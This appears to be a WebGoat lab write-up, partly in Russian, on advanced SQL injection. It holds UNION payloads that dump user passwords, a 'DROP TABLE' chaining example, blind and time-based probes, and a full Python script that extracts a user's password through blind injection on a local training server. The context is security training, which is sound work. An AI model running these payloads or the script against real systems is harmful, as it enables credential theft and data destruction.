**Special Characters**

```
/* */          are inline comments
-- , #          are line comments

Example: SELECT * FROM users WHERE name = 'admin' -- AND pass = 'pass'
;        allows query chaining

Example: SELECT * FROM users; DROP TABLE users;
',+,||         allows string concatenation
Char()         strings without quotes

Example: SELECT * FROM users WHERE name = '+char(27) OR 1=1
```

**Special Statements**

**Union**

```
SELECT first_name FROM user_system_data UNION SELECT login_count FROM user_data;
```

**Joins**

```
SELECT * FROM user_data INNER JOIN user_data_tan ON user_data.userid=user_data_tan.userid;
```

### 1. Try It! Pulling data from other tables




**SQL query:** Dave' or '1'='1


```


CREATE TABLE user_data (userid int not null,
                        first_name varchar(20),
                        last_name varchar(20),
                        cc_number varchar(30),
                        cc_type varchar(10),
                        cookie varchar(20),
                        login_count int);


CREATE TABLE user_system_data (userid int not null primary key,
			                   user_name varchar(12),
			                   password varchar(10),
			                   cookie varchar(30));


```

			                   
a) Извлечение всех данных из таблицы.

```
Dave' UNION SELECT * FROM user_data --
```

```
 Dave' UNION SELECT userid,user_name, password, 'a', 'b', 'c', 1 from user_system_data --
```



б) Пароль у Dave:



### 2. Blind SQL injection

```
SELECT * FROM articles WHERE article_id = 4 and 1 = 1
```
```
https://shop.example.com?article=4 AND substring(database_version(),1,1) = 2
```

**Time-based SQL injection**
```
article = 4; sleep(10) --
```




**SQL query:** 
```
tom' AND 1=1 --
```



**SQL query:** 
```
tom' AND 1=2 --
```




**SQL query:** 
```
tom' AND substring(password,1,1)='a
```

Запустим инструмент Burp intruder:









1 a
2 h
3 i
4 s
5 i
6 s
7 a
8 s
9 e
10 c
11 r
12 e 
13 t
14 f
15 o
16 r
17 t
18 o
19 m
20 o

thisisasecretfortomonly


Напишем скрипт на python для нахождения пароля через sql blind:

```
import requests
import string
import time
import random

# ====================== НАСТРОЙКИ ======================
URL = "http://127.0.0.1:8001/WebGoat/SqlInjectionAdvanced/register"
JSESSIONID = "837846933CE9C53D3680F61B1ACA5F96"   # замените на актуальный
PROXY = None  # {'http': 'http://127.0.0.1:8080'}   # раскомментируйте, если нужен прокси

HEADERS = {
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0",
    "Accept": "*/*",
    "Accept-Language": "en-US,en;q=0.5",
    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://127.0.0.1:8001",
    "Referer": "http://127.0.0.1:8001/WebGoat/start.mvc?username=username1",
}

# Функция проверки, что сервер доступен
def check_connection():
    try:
        test_resp = requests.get(
            "http://127.0.0.1:8001/WebGoat/",
            headers={"User-Agent": HEADERS["User-Agent"]},
            timeout=5
        )
        print(f"[*] Проверка соединения: код {test_resp.status_code}")
        return True
    except requests.ConnectionError:
        print("[!] Не удалось подключиться к серверу. Убедитесь, что WebGoat запущен и порт 8001 доступен.")
        return False

# Функция-предикат: возвращает True, если условие 'AND ...' истинно
def is_true(response):
    # Для WebGoat при совпадении возвращается сообщение "already exists"
    return "already exists" in response.text
# ========================================================

if not check_connection():
    exit(1)

# Создаём сессию с куками (можно передать cookies=... в запросах)
session = requests.Session()
session.cookies.set("JSESSIONID", JSESSIONID)

charset = string.ascii_lowercase + string.digits + "_.!@#$%^&*()-=+"
# Если пароль может содержать заглавные буквы, добавьте: + string.ascii_uppercase

password = ""
position = 1
print("[*] Начинаем извлечение пароля пользователя 'tom'...")

while True:
    found_char = False
    for ch in charset:
        # Пэйлоад: tom' AND ascii(substring(password,pos,1)) = ord(ch) --
        payload = f"tom' AND ascii(substring(password,{position},1))={ord(ch)} -- "
        data = {
            "username_reg": payload,
            "email_reg": "a@b.com",
            "password_reg": "pass",
            "confirm_password_reg": "pass"
        }

        try:
            resp = session.put(
                URL,
                data=data,
                headers=HEADERS,
                proxies=PROXY,
                timeout=10
            )
        except requests.RequestException as e:
            print(f"[!] Ошибка запроса: {e}")
            continue

        if is_true(resp):
            password += ch
            print(f"[+] Позиция {position}: '{ch}'  ->  Пароль: {password}")
            found_char = True
            break

    if not found_char:
        print(f"[*] На позиции {position} ни один символ не подошёл. Пароль полностью извлечён.")
        break

    position += 1
    time.sleep(0.2 + random.uniform(0, 0.3))   # плавающая задержка

print(f"\n[✔] Итоговый пароль: {password}")


```

Рекомендуется использовать виртуальное окружение:

```bash
python3 -m venv venv
source venv/bin/activate 
```

Запуск

```bash
python sql_blind_script.py
```





### Now it is time for a quiz!




